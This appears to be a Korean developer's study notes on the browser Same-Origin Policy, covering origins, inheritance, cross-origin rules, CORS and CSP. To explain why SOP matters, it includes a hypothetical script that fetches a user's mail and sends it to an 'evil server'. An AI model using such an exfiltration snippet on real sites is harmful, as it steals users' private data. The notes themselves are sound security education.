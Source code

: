 ```yaml
---
publishedAt: 2021-07-22
thumbnail: /images/018-thumb.png
thumbnailPlaceholder: WILL_BE_REPLACED
---
```


# Same-origin Policy (SOP)

:PublishDate{:date="publishedAt"}

:PostThumbnail{:src="thumbnail" :placeholder-data-uri="thumbnailPlaceholder"}

> SOP에 대해 공부하며 정리한 글입니다. 자세한 내용은 레퍼런스의 링크들을 읽는 것이 좋습니다.

## SOP란?

문서 또는 스크립트가 다른 origin과 통신하는 것을 제한하는 매커니즘

## SOP의 필요성

인터넷상의 악의적인 사이트들의 공격들을 막는데 도움이 된다.

예를 들어 악의적인 웹사이트에 다음과 같은 스크립트가 있다고 가정하면 접속한 사용자의 모든 메일을 얻을 수도 있는 것이다. (CSRF, XSS, Clickjacking등의 공격)

```html
<!-- 이런 공격을 CSRF라고 합니다 -->
<!-- 실제로 이런 api는 없습니다! -->
<script>
  fetch('https://gmail.com/api/all-mail').then((res) => sendToEvilServer(res))
</script>
```

## origin의 정의

origin은 프로토콜, 호스트, 포트를 합친 것이다. 셋 중에 하나라도 다르면 다른 origin으로 취급된다.

### 예시

- https://news.google.com ↔ https://news.google.com/other.html ⇒ ⭕️ (경로만 다른건 OK)
- https://news.google.com ↔ https://news.google.com:8080 ⇒ ❌ (포트가 다름)
- https://news.google.com ↔ http://news.google.com ⇒ ❌ (프로토콜이 다름)
- https://news.google.com ↔ https://coin.google.com ⇒ ❌ (호스트가 다름)

## origin의 상속

url이 `about:black`, `:javascript`인 문서의 스크립트는 상위 문서의 origin을 상속받는다.

### 예시

노션 페이지의 개발자도구 콘솔에서 `window.open()`을 입력하여 빈 페이지를 새 창으로 띄운다.
새 창에서 url과 origin을 확인해보면 노션의 origin을 그대로 사용하는 것을 확인할 수 있다.

```js
window.location.href // about:blank
window.origin // https://www.notion.so
```

## Internet Explorer에서 예외사항

1. 인트라넷처럼 신뢰할 수 있는 환경에서는 SOP를 적용하지 않는다 (어떻게?)
2. 포트번호는 origin을 체크할 때 포함되지 않는다. 즉, 다른 포트로 요청할 수 있다.

## origin 변경

`document.domain`에 값을 할당하는 방식으로 약간의 제한과 함께 사용할 수 있지만, 보안적인 이유로 사용하지 않는다.

## Cross-origin 접근 처리

_"그러면 SOP는 모든 cross-origin 요청을 막는 것인가? 지금까지 잘 다른 사이트의 리소스를 사용했는데?"_ 라고 말할 수 있다.

사실 그렇지는 않다. 역사적 사정이 있기 때문인지 몇몇 HTML태그들은 SOP의 제한을 받지 않는다.

SOP는 요청을 세 가지 카테고리로 나누고 각각 다르게 처리한다.

1. 쓰기: 일반적으로 허용한다. 일부 HTTP요청은 preflight가 필요하다
   (CORS에서 등장하는 preflight) - 링크, 리다이렉트, 폼 제출 - `<a>` - `<form>` 으로 다른 origin에 데이터를 쓰는 작업
2. 임베딩: 일반적으로 허용한다.
   - `<script src="..."></script>`
   - `<link rel="stylesheet" href="…">`
   - `<img>`, `<video>`, `<audio>`, `<object>`, `<embed>`
   - `@font-face`
   - `<iframe>`
3. 읽기: 일반적으로 허용하지 않는다.
   - 보통 js 코드로 접근하는 행위들이 해당된다.
     - js로 iframe내의 document에 접근
     - js로 canvas내에 다른 origin의 이미지를 불러오는 작업
     - js로 다른 리소스를 fetch하는 작업

## cross-origin 요청을 허용 또는 차단하는 방법

필요에 따라서 SOP의 제한을 허용해주거나 SOP에 적용되지 않는 제한을 추가하면 좋을 때가 있다.

이런 필요에 의해 등장한 개념이 대표적으로 CORS와 CSP이다.

- 허용
  - Cross-Origin Resource Sharing(CORS)
  - JSONP (CORS가 등장하기 전에 사용하던 우회방법)
- 차단
  - CSP(Content Security Policy)
  - CSRF token

## Cross-origin script API 접근

iframe, popup처럼 서로 다른 문서가 서로 직접 참조할 수 있는 경우, 두 문서의 origin이 다르면 다른 문서의 window, location객체에 사용할 수 있는 API가 제한된다.

- cross-origin 상태의 문서간 통신을 위해서는 `postMessage()`를 사용하는 것이 좋다.

## Cross-origin data storage 접근

다른 origin의 저장된 데이터(WebStorage, IndexdeDB)는 읽을 수 없다.

## Reference

- [MDN - Same-origin Policy](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
- [web.dev - same origin policy](https://web.dev/same-origin-policy/)
